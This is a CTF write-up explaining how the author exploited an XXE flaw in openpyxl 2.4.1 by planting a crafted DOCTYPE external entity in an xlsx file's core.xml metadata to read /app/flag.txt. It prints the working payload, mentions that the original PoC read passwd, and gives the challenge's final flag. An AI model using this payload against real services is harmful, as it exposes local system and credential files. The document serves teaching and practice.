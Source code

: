 # vlookup_hot_singles_2 
Writeup author: **lolmenow**

Point count: 914pts

Difficulty: hard

Provided files: N/A (same as first edition of challenge)

Description: oh. it's her. well, see if you can get the flag at /app/flag.txt and then get out of there
# 

This challenge did leave me stuck for a while, as I had no idea how to create spreadsheet type vulnerabilities. I kept digging around the source code, and noticed something unusual.

The pipfile had certian libraries installed on a specific version.

```
[[source]]
url = "https://pypi.org/simple"
verify_ssl = true
name = "pypi"

[packages]
openpyxl = "==2.4.1"
lxml = "==4.9.4"
flask = "*"
pyjwt = "*"

[dev-packages]

[requires]
python_version = "3.11"
```

Huh, why is openpyxl forced to install on version 2.4.1?

Lets google and see if there are any vulnerabilities specific to that version.

And there is!

There is XML External Entity (XXE) on that library!

*openpyxl is a Python library to read/write Excel 2010 xlsx/xlsm files Openpyxl 2.4.1 resolves external entities by default, which allows remote attackers to conduct XXE attacks via a crafted .xlsx document.*

*XXE Injection is a type of attack against an application that parses XML input. XML is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. By default, many XML processors allow specification of an external entity, a URI that is dereferenced and evaluated during XML processing. When an XML document is being parsed, the parser can make a request and include the content at the specified URI inside of the XML document.*
[Source](https://security.snyk.io/vuln/SNYK-PYTHON-OPENPYXL-40459)

Okay, now that we know there is XXE in this library, this should be pretty straight forward.

During my research process, I came across a proof of concept of a security researcher conducting this. [POC](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=854442)

xlsx files are actually zip files, so we can rename the xlsx file the POC gave us to .zip and see whats inside.

Looking around, we see something in docProps/core.xml

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [
   <!ENTITY xxe SYSTEM "file:///app/flag.txt" >]><cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dc:creator>Ulikowski, Marcin</dc:creator><cp:lastModifiedBy>Ulikowski, Marcin</cp:lastModifiedBy><dcterms:created xsi:type="dcterms:W3CDTF">2017-01-31T09:02:33Z</dcterms:created><dcterms:modified xsi:type="dcterms:W3CDTF">2017-01-31T09:02:53Z</dcterms:modified><dc:subject>&xxe;</dc:subject></cp:coreProperties>
```
*Note: the file:///app/flag.txt was renamed to this for the purpose of getting the flag. Originally, in the POC, it wanted to read passwd.*

Thats it! So we can just modify what the POC gave us to read /app/flag.txt

Zip all the spreadsheet files back into a .zip file. Rename it to .xlsx, and upload it to the website!

The website gives us a `your_location_has_been_recorded.xlsx`

Opening this does not show anything. What took me a while was that the POC injected the XXE into the subject metadata of the spreadsheet.

It wasn't until I tried moving the file to my linux home directory while the spreadsheet was opened to notice it.

How did I notice it? Well, windows tells you that you can't move files if the app is open, and I tried to, and I noticed that the flag was in the subject metadata!

![image](https://github.com/sa1181405/pbchocolate-private-writeups/assets/170969470/9f4bcef5-946c-42ed-9827-4b3fc4795a44)

There is our flag! Lesson learned, always read the payloads in proof of concepts fully!

Final flag: `jellyCTF{th1s_1snt_a_r3d_0n3_r1gh7?}`
